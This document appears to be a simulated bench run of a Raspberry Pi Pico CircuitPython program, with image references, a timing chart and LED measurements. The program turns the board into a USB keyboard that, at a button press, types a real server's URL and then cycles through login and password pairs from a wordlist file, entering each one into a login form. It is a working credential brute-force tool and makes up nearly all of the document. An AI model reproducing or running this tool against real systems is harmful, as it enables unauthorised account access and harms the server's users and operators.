
This program was run on a simulated Raspberry Pi Pico running CircuitPython. On the bench: output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band); at power-on: GP1 (startButton) HIGH. USB keyboard and mouse output is not drawn.

Above: at 1.2 s.
1.3 s: GP1 (startButton) pulled LOW for 0.15 s
At 2.1 s:

Timing chart, 0 to 36.6 s (numbered marks = the images above; inputs shaded):


The program:

code_rp2040ZERO_.py
```python
### LIBRARIES ###
import usb_hid
import board
import time
import digitalio

from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keycode import Keycode
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS

### VARIABLES ###
startButton = digitalio.DigitalInOut(board.GP1)
readyLED = digitalio.DigitalInOut(board.GP6)
runningLED = digitalio.DigitalInOut(board.GP15)
readyLED.direction = digitalio.Direction.OUTPUT
runningLED.direction = digitalio.Direction.OUTPUT
startButton.switch_to_input(pull = digitalio.Pull.UP)
filePath = "./wordlist.txt"
kbd = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(kbd)
serverUrl = "http://bridge.ufsc.br"

### FUNCTIONS ###

def clearField():
  kbd.press(Keycode.BACKSPACE)
  time.sleep(3)
  kbd.release_all()


def typeCredentials(login, password):
  clearField()
  layout.write(login)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.TAB)
  clearField()
  layout.write(password)
  kbd.send(Keycode.ENTER)
  time.sleep(0.5)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.ENTER)
  time.sleep(0.5)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.TAB)


### MAIN LOOOP ###
readyLED.value = True
runningLED.value = False
while True:
  if startButton.value == False: # If the startButton is pressed
	  try:
	    with open(filePath, "r") as file:
	      readyLED.value = False
	      runningLED.value = True
	      layout.write(serverUrl)
	      kbd.send(Keycode.TAB)
	      kbd.send(Keycode.TAB)
	      for line in file:
	        words = line.strip().split(',')
	        login = words[0]
	        password = words[1]
	        typeCredentials(login, password)
	        time.sleep(1)

	      readyLED.value = True
	      runningLED.value = False
	  except: print("[-] Error")
```

Measured:
- after the input at 1.3 s, GP6 (readyLED): HIGH → LOW at once, → HIGH 33.8 s later; GP15 (runningLED): LOW → HIGH at once, → LOW 33.8 s later
